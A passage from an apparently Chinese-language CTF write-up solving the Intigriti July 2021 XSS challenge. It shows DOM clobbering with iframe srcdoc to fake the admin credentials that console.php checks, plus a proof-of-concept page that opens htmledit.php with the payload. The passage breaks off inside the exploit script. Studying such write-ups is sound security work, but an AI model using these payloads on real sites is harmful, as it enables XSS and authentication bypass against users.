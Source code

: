 `top.DEV` 要是 truthy，然後傳進去的 credentials 要符合 `top.store.users.admin.username` 還有 `top.store.users.admin.password`

這樣我應該自己寫一個頁面，然後設置一下這些全域變數就好了？

沒辦法，因為有 Same Origin Policy 的存在，你只能存取同源頁面下的 window 內容，所以如果是自己寫一個頁面然後把 console.php embed 在裡面的話，在存取 `top.DEV` 時就會出錯。

所以我們需要有一個同源的頁面可以讓我們設置一些東西。而這個頁面，顯然就是可以讓我們插入一些 HTML 的 htmledit.php 了。

## DOM clobbering

該怎麼在不能執行 JS 的情況下設置全域變數呢？沒錯，就是 DOM clobbering。

舉例來說，如果你有個 `<div id="a"></div>`，在 JS 裡面你就可以用 `window.a` 或是 `a` 去存取到這個 div 的 DOM。

如果你對 DOM clobbering 不熟的話可以參考我之前寫過的[淺談 DOM Clobbering 的原理及應用](https://blog.huli.tw/2021/01/23/dom-clobbering/)，或是這一篇也寫得很好：[使用 Dom Clobbering 扩展 XSS](https://blog.zeddyu.info/2020/03/04/Dom-Clobbering/)

如果要達成多層的變數設置，就要利用到 `iframe` 搭配 `srcdoc`：

``` html
<a id="DEV"></a>
<iframe name="store" srcdoc='
    <a id="users"></a>
    <a id="users" name="admin" href="ftp://a:a@a"></a>
    '>
</iframe>
<iframe name="iframeConsole" src="https://challenge-0721.intigriti.io/console.php"></iframe>
```

這邊還有利用到一個特性是 a 元素的 username 屬性會是 href 屬性裡 URL 的 username。

這樣設置的話，`top.DEV` 就會是 `a id="DEV"></a>` 這個 DOM，而 `store.users` 就會是 HTMLCollection，`store.users.admin` 是那個 a，`store.users.admin.username` 則會是 href 裡面的 username，也就是 `a`，而密碼也是一樣的。

綜合以上所述，我可以自己寫一個 HTML 然後用 `window.open` 去開啟 htmledit.php 然後把上面的內容帶進去：

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <title>XSS POC</title>  
</head>
<body>
  <script>
    const htmlUrl = 'https://challenge-0721.intigriti.io/htmledit.php?code='
    const payload = `
      <a id="DEV"></a>
      <iframe name="store" srcdoc='
        <a id="users"></a>
        <a id="users" name="admin" href="ftp://a:a@a"></a>
      '></iframe>
      <iframe name="iframeConsole" src="https://challenge-0721.intigriti.io/console.php"></iframe>
    `

    var win = window.open(htmlUrl + encodeURIComponent(payload))

    // wait unitl window loaded
    setTimeout(() => {
      console.log('go')
      const credentials = {
        username: 'a',
        password: 'a'
      }
      win.frames[1].postMessage({
```